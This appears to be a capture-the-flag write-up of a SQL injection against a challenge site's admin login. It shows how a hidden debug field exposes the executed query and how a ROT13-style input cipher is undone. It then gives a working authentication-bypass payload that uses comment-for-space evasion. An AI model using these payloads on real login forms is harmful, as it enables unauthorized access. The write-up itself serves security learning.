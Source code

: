 The page we need to exploit is a static site featuring photos of Irish people.  

![alt text](imgs/image1.png)

In the top-left corner, there is a menu with an option for **Admin Login**.

![alt text](imgs/image.png)

The login form appears to be vulnerable to **SQL injection**.

Upon inspecting the HTML source code of the site, we discover a hidden `debug` element with a boolean value:
```html
<input type="hidden" name="debug" value="0">
```

If we modify the boolean value to `1` and attempt to log in, the page redirects us to a debug page that reveals sensitive information, including the password used and the SQL query executed by the web application:

```
password: test
SQL query: SELECT * FROM admin WHERE password = 'grfg'
```

This confirms that the challenge involves a **SQL injection vulnerability**. However, we must note that the input is encrypted before being used in the query. After analyzing the encryption mechanism, we determine that it uses a simple **ROT13-like cipher**:
- It subtracts `13` from the ASCII value of each lowercase letter.
- If subtracting `13` would result in a value below `97` (the ASCII value for 'a'), it adds `13` instead.
- Non-alphabetic characters remain unchanged.

Here’s the Python script that implements this encryption:
```python
variable = "input"
new_variable = "" 

for i in variable:
    if (ord(i) < 97 or ord(i) > 122):
        new_variable += i
    elif (ord(i) - 13) < 97:
        new_variable += chr(ord(i) + 13)
    else:
        new_variable += chr(ord(i) - 13)
```

The SQL query we observed is:
```
SQL query: SELECT * FROM admin WHERE password = 'grfg'
```

Our goal is to manipulate this query into something like:
```
SQL query: SELECT * FROM admin WHERE password = 'a' OR '1'='1'
```
1. `'` closes the `password` parameter.
2. `OR 1=1` ensures the condition is always true, bypassing the password check.

To achieve this, we need to input:
```
a' OR '1'='1'
```

However, since spaces are problematic in some SQL injection contexts, we replace them with SQL comments (`/**/`):
```
a'/**/OR/**/'1'='1'
```

Next, we encode this input using the Python script to get this:
```
n'/**/be/**/'1'='1'
```

When we submit this payload, the application logs us in and grants access to the flag!
